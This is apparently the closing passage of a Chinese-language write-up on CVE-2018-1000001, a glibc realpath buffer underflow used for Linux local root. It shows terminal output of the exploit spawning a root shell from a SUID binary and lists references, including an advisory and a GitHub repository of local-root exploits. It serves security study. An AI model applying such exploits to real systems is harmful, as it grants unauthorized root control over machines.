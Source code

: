 ```
/proc/self/exe: invoked as SUID, invoking shell ...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),999(ubuntu)
# ls -l a.out 
-rwsr-xr-x 1 root root 44152 Feb  1 03:28 a.out
```


## 参考资料
- [LibcRealpathBufferUnderflow](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/)
- https://github.com/5H311-1NJ3C706/local-root-exploits/tree/master/linux/CVE-2018-1000001
- `man 3 getcwd`，`man 3 realpath`，`man mount_namespaces`
- [util-linux/sys-utils/umount.c](https://github.com/karelzak/util-linux/blob/master/sys-utils/umount.c)
